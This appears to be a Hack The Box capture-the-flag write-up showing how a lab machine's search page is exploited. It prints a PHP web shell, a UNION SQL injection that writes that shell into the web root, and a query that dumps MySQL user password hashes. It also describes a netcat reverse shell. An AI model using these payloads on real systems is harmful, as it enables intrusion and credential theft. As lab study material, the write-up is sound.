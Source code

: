 {% include image.html image_alt="a820c474.png" image_src="/828bf584-bc2b-4d87-b20b-f083d3220fa1/a820c474.png" %}

So, the `search_products.php` page is susceptible to a UNION-based SQL injection. Time to upload a simple PHP backdoor like so.

```
<?php echo shell_exec($_GET[0]); ?>
```

Enter the following into the search field.

```
' UNION SELECT 1,2,3,4,5,"<br><pre><?php echo htmlentities(shell_exec($_GET[0])); ?></pre>" INTO OUTFILE '\\inetpub\\wwwroot\\cmd.php' -- -
```

Let's see if we can execute remote commands through PHP.

{% include image.html image_alt="abed8a8f.png" image_src="/828bf584-bc2b-4d87-b20b-f083d3220fa1/abed8a8f.png" %}

Awesome!

## Low-Privilege Shell

Time to get that shell. First, let's transfer `nc.exe` (from `/usr/share/windows-resources/binaries/nc.exe`) to a world-writable folder (like `\Windows\System32\spool\drivers\color`).

{% include image.html image_alt="176de520.png" image_src="/828bf584-bc2b-4d87-b20b-f083d3220fa1/176de520.png" %}

Let's run the reverse shell back to us while `nc` listens for the incoming shell.

{% include image.html image_alt="0f4003be.png" image_src="/828bf584-bc2b-4d87-b20b-f083d3220fa1/0f4003be.png" %}

And we have the initial foothold.

{% include image.html image_alt="21095228.png" image_src="/828bf584-bc2b-4d87-b20b-f083d3220fa1/21095228.png" %}

### Hector is in the Remote Management Users group

During enumeration of `iusr`'s account, I noticed that Hector is in the **Remote Management Users** group. That means his credentials must be lying somewhere...

{% include image.html image_alt="bf4295b3.png" image_src="/828bf584-bc2b-4d87-b20b-f083d3220fa1/bf4295b3.png" %}

### Get that hash

To be honest, I was pleasantly surprised that I could even run the following SQLi and yielded something.

```
' UNION SELECT 1,2,3,4,user, password from mysql.user -- -
```


[1]: https://www.hackthebox.eu/home/machines/profile/218
[2]: https://www.hackthebox.eu/home/users/profile/31190
[3]: https://www.hackthebox.eu/